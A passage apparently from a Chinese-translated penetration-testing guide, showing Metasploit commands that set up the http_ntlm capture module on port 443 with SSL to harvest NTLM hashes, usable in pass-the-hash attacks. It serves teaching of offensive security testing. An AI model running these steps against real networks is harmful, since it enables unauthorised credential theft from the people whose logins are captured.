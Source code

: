 再次设置`SRVHOST`。您可以使用向上箭头键返回到上次设置的属性：

```
set SRVHOST 172.16.42.139
run -j # Again this will run the job in the background
```

有两种方法可以捕获 HTTP 流量。一种是`auxiliary/server/capture/http_ntlm`模块。此模块将以其 NTLM 哈希值捕获凭据。这些哈希值将是可重放的，因为我们的攻击服务器发送了挑战。之前定义了挑战盐值-我们看到它设置为`1122334455667788`。此攻击中捕获的哈希值可以在* Pass the Hash * -style 攻击中使用。要设置和运行此模块，请运行以下命令：

```
use auxiliary/server/capture/http_ntlm
show options  
```

![](img/ffe2c9ce-d224-4fb3-b7eb-c71b814914c4.png)

再次设置`SRVHOST`。您可以使用向上箭头键返回到上次设置的方式：

```
set SRVHOST 172.16.42.139  
```

由于`wpad`服务器正在端口`80`上运行，我们需要将此服务移动到不同的 HTTP 端口，因此我们将设置它在端口`443`上运行，并将 SSL 设置为 true，如下所示：

```
set SRVPORT 443 # Set to local service port to 443
set SSL true # This sets a self-signed cert to the port.
set JOHNPWFILE john-cap.txt # This will set an output file.
run -j # Again this will run the job in the background
```

第二种方法将导致 NTLM 登录降级为明文，就像 Responder 附带的 HTTP 服务器一样。使用此捕获方法，凭据将准备好使用。您一次只能使用其中一个模块。尝试同时运行两者将导致第二个崩溃，并有时会导致第一个 HTTP 服务器开始挂起。
